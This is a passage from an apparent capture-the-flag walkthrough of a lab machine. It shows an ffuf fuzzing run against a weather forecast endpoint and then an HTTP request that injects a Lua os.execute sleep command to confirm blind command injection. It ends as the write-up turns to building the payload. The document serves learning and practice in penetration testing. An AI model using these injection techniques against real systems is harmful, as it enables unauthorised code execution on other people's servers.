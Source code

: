 ```
       v1.5.0 Kali Exclusive <3                            
________________________________________________           

 :: Method           : GET                                 
 :: URL              : http://10.10.10.218/weather/forecast?city='FUZZ--                                              
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/special-chars.txt                                  
 :: Follow redirects : false                               
 :: Calibration      : false                               
 :: Timeout          : 10                                  
 :: Threads          : 40                                  
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500                                           
 :: Filter           : Response words: 9                   
________________________________________________           

)                       [Status: 500, Size: 37, Words: 5, Lines: 1, Duration: 58ms]                                   
:: Progress: [32/32] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
as we can se a closed parenthesis will do the job.  

## Foothold 
Once we discovered how to pass special charachters without breaking the application, we can start crafting our payload.  
First of all, let's check if we can execute code by adding a command in the lua commands chain.  
```
GET /weather/forecast?city=');os.execute("sleep+5")-- HTTP/1.1
Host: 10.10.10.218
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
As we can notice in the response time, we manage to get the code execution
![](Attachments/03-blind-command-injection.png)
So now, let's start crafting our payload.  